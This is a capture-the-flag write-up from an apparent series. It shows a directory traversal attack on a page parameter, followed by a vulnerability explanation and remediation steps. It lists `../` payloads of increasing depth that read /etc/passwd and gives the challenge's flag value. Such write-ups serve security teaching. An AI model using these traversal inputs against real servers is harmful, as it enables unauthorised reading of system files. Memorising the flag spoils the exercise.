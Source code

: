# Breach: Directory Traversal via Page Parameter

## Discovery & Exploit

The website uses a query parameter to load pages:

``?page=XXX``

This pattern is commonly vulnerable to **directory traversal**, which allows access to arbitrary files on the server.

We tested for this by attempting to access the UNIX password file `/etc/passwd`, incrementally increasing the traversal depth:

- `?page=../etc/passwd` → Response: “Wtf ?”
- `?page=../../etc/passwd` → “Wrong..”
- `?page=../../../etc/passwd` → “Nope..”
- `?page=../../../../etc/passwd` → “Almost.”
- `?page=../../../../../etc/passwd` → “Still nope..”
- `?page=../../../../../../etc/passwd` → “Nope..”
- `?page=../../../../../../../etc/passwd` →  
→ **Success**, response:  
`Congratulation!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## Vulnerability Details

This is a **Path Traversal Attack**, where an attacker manipulates file paths to access restricted files outside the intended web root.

This is often possible when:

- User input is concatenated into file paths without sanitization
- The application does not restrict or validate path traversal characters (`../`)

References:

- https://owasp.org/www-community/attacks/Path_Traversal
- https://portswigger.net/web-security/file-path-traversal

## Remediation

1. Normalize and sanitize all user-supplied file paths.
2. Use a strict whitelist of allowed pages/files.
3. Avoid including user input directly in filesystem paths.
4. Run web applications with limited file system permissions.
5. Log and alert on unusual file access attempts.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach10_SurveyValueBypass/Ressources/writeup.md">← Previous: Breach10</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach12_StoredXSSFeedbackForm/Ressources/writeup.md">Next: Breach12 →</a></td>
  </tr>
</table>